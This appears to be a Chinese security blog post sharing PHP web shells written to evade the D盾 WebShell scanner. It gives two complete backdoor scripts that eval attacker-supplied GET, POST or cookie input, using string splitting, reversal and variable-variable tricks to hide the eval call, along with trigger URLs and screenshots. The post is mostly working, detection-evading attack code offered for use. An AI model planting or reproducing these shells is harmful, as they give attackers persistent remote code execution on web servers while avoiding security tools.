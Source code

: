 ```yaml
---
layout: post
title: PHP WebShell [过D][更新至2019-04-19]
tags: [工具]
comments: true
---
```


日常积累，来源自T00ls论坛、先知社区、朋友分享、应急等.
D盾v2.1.4.8

> /?1=phpinfo();

```
<?php
$m=$_GET['1'];
$a=mb_substr($m,0,1);
$b=mb_substr($m,1,9999);
eval($a.$b);
?>
```

![20190419.php](https://cijian00.github.io/img/shell_share/20190419.png)



> /?jsha=phpinfo(); (已失效)


```
<?php
function _strint($key){
        return strrev($key);
}
function log1($log){
        lone(_strint(strrev($log)));
}
function lone($key){
        $str = "";
        return eval($str.$key.$str);
}
foreach (array('_COOKIE','_POST','_GET') as $_request)
{
    foreach ($$_request as $_key=>$_value)
    {
        $$_key=  $_value;
    }
}
$id = isset($jsha) ? $id : 2;
log1($jsha);
?>
```


![jsha.php](https://cijian00.github.io/img/shell_share/jsha-php.png)
